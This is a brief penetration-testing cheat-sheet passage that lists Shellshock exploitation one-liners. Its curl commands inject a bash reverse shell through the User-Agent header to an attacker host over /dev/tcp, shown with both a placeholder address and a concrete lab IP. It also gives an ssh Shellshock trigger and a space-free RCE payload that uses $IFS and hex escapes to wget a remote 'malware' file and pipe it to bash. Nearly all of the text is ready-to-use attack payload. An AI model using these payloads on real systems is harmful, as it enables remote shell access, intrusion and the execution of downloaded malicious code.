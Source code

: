 - Shellshock
	- `curl -x TARGETADDRESS -H "User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/HOSTIP/1234 0>&1" TARGETADDRESS/cgi-bin/status`
	- `curl -x 192.168.28.167:PORT -H "User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/192.168.28.169/1234 0>&1" 192.168.28.167/cgi-bin/status`
	- `ssh username@IPADDRESS '() { :;}; /bin/bash'`
- RCE where no spaces are allowed (python required)
	- `python3$IFS-c'print(b"wget\x20http://my-malware".decode())'|bash`